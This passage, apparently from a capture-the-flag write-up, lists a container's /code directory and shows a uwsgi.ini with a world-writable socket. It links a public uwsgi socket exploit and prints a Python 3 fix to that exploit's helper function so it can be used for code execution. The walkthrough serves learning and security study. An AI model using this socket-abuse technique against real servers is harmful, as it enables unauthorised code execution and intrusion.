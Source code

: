 Inside the container, after full enumeration we end up focusing on `/code` directory

```bash
qtc@aeb4525789d8:/code$ ls -lsrta /code
total 52
4 -rw-r--r-- 1 root root  163 Feb 11 17:34 uwsgi.ini
4 -rwxr-xr-x 1 root root   89 Feb 11 17:34 start.sh
4 -rw-r--r-- 1 root root  241 Feb 11 17:34 requirements.txt
4 -rw-r--r-- 1 root root  724 Feb 11 17:34 nginx.conf
4 drwxr-xr-x 4 root root 4096 Feb 11 17:34 migrations
4 -r-------- 1 root root 2602 Feb 11 17:34 key
4 -rw-r--r-- 1 root root   23 Feb 11 17:34 consumer.py
4 -rw-r--r-- 1 root root  325 Feb 11 17:34 config.py
4 -r-------- 1 root root  568 Feb 11 17:34 authorized_keys
4 -rw-r--r-- 1 root root 1072 Feb 11 17:34 Dockerfile
4 drwxr-xr-x 4 root root 4096 Feb 11 17:34 .
4 drwxr-xr-x 5 root root 4096 Feb 11 17:34 oouch
4 drwxr-xr-x 1 root root 4096 Feb 25 12:33 ..
0 -rw-rw-rw- 1 root root    0 May 21 17:52 urls.txt
```

### Abusing uwsgi

Here we can see all the consumer app code. For now, we focus on uwsgi configuration, which have open permissions on the unix socket under `/tmp`

```text
qtc@aeb4525789d8:/code$ cat uwsgi.ini
[uwsgi]
module = oouch:app
uid = www-data
gid = www-data
master = true
processes = 10
socket = /tmp/uwsgi.socket
chmod-sock = 777
vacuum = true
die-on-term = true
```

After some google fu research, found this python exploit to take advance of the wsgi socket.

[https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi\_exp.py](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py)

The exploit needs to be fixed for python3 compatibility, change `sz` function as follows:

```python
# Original
def sz(x):
    s = hex(x if isinstance(x, int) else len(x))[2:].rjust(4, '0')
    if sys.version_info[0] == 3: import bytes
    s = bytes.fromhex(s) if sys.version_info[0] == 3 else s.decode('hex')
    return s[::-1]

# Fixed
def sz(x):
    s = hex(x if isinstance(x, int) else len(x))[2:].rjust(4, '0')
    s = bytes.fromhex(s)
    return s[::-1]
```
